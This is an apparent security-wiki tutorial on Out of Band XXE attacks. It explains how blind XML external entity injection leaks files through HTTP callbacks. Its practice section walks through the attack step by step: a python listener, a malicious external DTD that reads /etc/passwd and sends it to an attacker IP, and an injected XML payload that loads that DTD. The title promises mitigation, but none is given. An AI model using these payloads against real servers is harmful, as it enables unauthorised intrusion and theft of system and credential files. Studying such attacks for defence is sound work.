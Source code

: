 ```yaml
---
title: 'Out of Band XXE Attack: Exploit and Mitigation'
description: Learn how to perform Out of Band XXE attacks to exfiltrate data using
  XML and external entities.
keywords:
- Out of Band XXE
- XML External Entity
- data exfiltration
- HTTP callbacks
- malicious DTD
- blind XXE attack
- server exploitation
---
```


# Out of Band XXE

## Context

The purpose of this article is to demonstrate how to exploit an Out of Band (OOB) XML External Entity (XXE) vulnerability to exfiltrate sensitive data via external entities using HTTP callbacks. This requires a solid understanding of XML structure, DTD usage, HTTP request basics, and Blind XXE fundamentals. OOB XXE allows attackers to bypass systems where immediate interaction from XML processors is restricted by leveraging external connections for data leaks.

## Theory

### Out of Band XXE Fundamentals

OOB XXE is a specialized attack that manipulates XML processors capable of accessing external resources on behalf of the server. This attack takes place when an attacker injects XML containing malicious DTD references. These references enable the attackers to initiate HTTP requests from the server to an attacker-controlled infrastructure, thereby exfiltrating sensitive data.

- The fundamental component of OOB XXE is the use of attacker-controlled DTDs. These DTDs reference URLs that point to the attacker's server, allowing stolen data to be captured and stored remotely.

- The attack sequence for OOB XXE involves:
  1. Injecting an XXE payload that includes a reference to a malicious external DTD.
  2. The server parses this XML, resolves the external entity, and makes an HTTP request to the attacker's server.
  3. Data is thus transferred out of band, bypassing traditional XML result boundaries.

### External DTDs and HTTP Exfiltration

External DTDs are crafted to include entities that, when resolved by the server, cause the server to make an outbound HTTP request. This request can carry exfiltrated data as part of its URL or headers back to an attacker's infrastructure.

- **Data Flow**: Through an OOB XXE attack, sensitive file contents, such as configuration files or passwords, are inserted into HTTP requests and sent to the attacker's server.

- **Protocol Weakness**: A critical flaw in server-side XML parsers is their default behavior to resolve and fetch content from any specified URL in external entities. This creates a channel for exfiltration without needing immediate XML output.

### Attacker Infrastructure for OOB XXE

A public HTTP server is used to receive the data exfiltrated from the target system. Such infrastructure can be easily set up using minimal resources and tools.

- Tools like `xxe.sh` facilitate automating the setup of a malicious DTD and help capture HTTP requests efficiently. These tools allow attackers to focus on the payload crafting without worrying about the nuances of server configuration.

## Practice

### OOB XXE via External DTD and HTTP Callback

To carry out an OOB XXE attack, follow these steps:

- Set up a public HTTP server to capture exfiltrated data.
  - This server will be used to monitor and receive incoming HTTP requests with sensitive data from the target.

```bash
python3 -m http.server 8080
```

- Craft a malicious DTD designed to exfiltrate sensitive file content via an HTTP request. The following DTD needs to reference an attacker-controlled IP address and port:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all '<!ENTITY &#x25; send SYSTEM "http://YOUR-ATTACKER-IP:8080/?x=%file;">'>
%all;
```
> Ensure to replace `YOUR-ATTACKER-IP` with your actual server IP address.

- Inject an XML payload that references the external DTD. When processed, this prompts the server to fetch your malicious DTD file.

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % ext SYSTEM "http://YOUR-ATTACKER-IP:8080/malicious.dtd">
%ext;
]>
<data>&send;</data>
```
> Replace `YOUR-ATTACKER-IP` with your actual server IP.

- Monitor your HTTP server for incoming requests. These will contain portions or all of the exfiltrated data as part of the query string or request header values.

The ultimate objective of this approach is to successfully exfiltrate sensitive content from a vulnerable server to your controlled environment over HTTP.

## Tools

- **python3**
- **xxe.sh** 

This concludes the steps and necessary concepts needed to successfully perform an Out of Band XXE attack. With these insights, a practitioner can execute these attacks in controlled environments to understand their mechanics and implications better.